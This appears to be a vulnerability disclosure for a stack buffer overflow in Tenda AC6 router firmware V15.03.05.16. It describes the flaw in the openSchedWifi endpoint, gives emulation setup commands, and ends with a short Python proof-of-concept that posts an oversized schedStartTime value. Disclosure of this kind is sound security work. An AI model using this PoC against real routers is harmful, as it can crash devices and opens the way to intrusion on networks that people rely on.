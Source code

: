 
-------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedStartTime parameter causes a stack-based buffer overflow.

![](api/attachments/BmIvZmBWK4TX/image/image.png)

![](api/attachments/V6yTKP4NeXX3/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedStartTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/psSzvwYslYpj/image/image.png)

